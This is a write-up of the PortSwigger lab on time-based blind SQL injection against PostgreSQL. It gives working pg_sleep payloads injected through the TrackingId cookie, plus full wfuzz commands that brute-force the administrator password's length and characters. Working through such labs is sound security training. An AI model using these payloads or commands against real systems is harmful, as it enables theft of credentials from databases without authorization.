 # Blind SQL injection with time delays and information retrieval
[Click here to see the description of the lab.](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)
## Description:
This challenge is about Blind SQL injection based on Time delay. Blind SQL injection doesn't return a response containing the results of the query or any database errors, but it can change some content on the web page, or send an error status code as an HTTP response, in this case neither case is met. To solve this challenge, we rely on the time the query took to be executed, normal time means a condition is not met, more time means a condition is met.
## Writeup:
The challenge's description reveals that the **session cookie** is vulnerable, and we can use it to retrieve the `password` of the `administrator` from the `users` table.
We can use BurpSuite to intercept the request and take a look at the cookie:
![Screenshot from 2024-12-17 16-48-08](https://github.com/user-attachments/assets/24afbb04-d5b1-4d12-a52b-5142cd8b8d02)
We can verify that it is a time based sql injection by sending this payload (we suppose that is it a PostgresSQL database) at the end of the TrackiId cookie:
`'|| pg_sleep(5)--`
The response was delayed, so the query works.
Since we can't see the result of  the query injected, and we want to extract the password of the administrator, we can make a delay if the first character of the password equals 'a', the payload should look similar to this:
`'||(SELECT pg_sleep(5) FROM users WHERE username='administrator' AND substr(password, 1, 1)='a'--`
If the condition was correct, the query will be delayed by 5 seconds, and we now know the first character of the password. Following this method manually is impossible since the password can be any length and contain any character, Wfuzz tool can help us.
You can inject a range of numbers, list of words or characters in your payload by writing FUZZ in the chosen injection point, and with the following command we can know the length of the password:
`wfuzz -c -z range,0-30 -H "Cookie: TrackingId=zJ1zKcy39v1HQPaY'||(SELECT pg_sleep(5) FROM users WHERE username='administrator' AND LENGTH(password)=FUZZ)--; session=zgorPVqzeSjnbS5aGVnU7BaAjYjT022D" -u "https://0a4200b7042a32e28467c84d00a100aa.web-security-academy.net/" --filter "r.reqtime>=4"`
The option `--filter r.reqtime>=4` helps us filter the response that took more than 5 seconds, which means the condition is true.
And the result was:
![Screenshot from 2024-12-17 17-00-12](https://github.com/user-attachments/assets/3cb0ab9b-2a61-4a0c-b3a8-3ce5839b7342)
The password's length is 20, now we can test each index with a set of characters and numbers stored in `ascii.txt` file. The Command would be:
`wfuzz -c -z range,1-20 -z file,/home/kali/Desktop/ascii.txt -H "Cookie: TrackingId=zJ1zKcy39v1HQPaY'||(SELECT pg_sleep(5) FROM users WHERE username='administrator' AND substr(password, FUZZ, 1)='FUZ2Z')--; session=zgorPVqzeSjnbS5aGVnU7BaAjYjT022D" -u "https://0a4200b7042a32e28467c84d00a100aa.web-security-academy.net/" --filter "r.reqtime>=4"`
And now we got the admin's password from the database.
![Screenshot from 2024-12-17 17-01-04](https://github.com/user-attachments/assets/297743e3-e402-4c7b-9660-64f26e8e5d76)
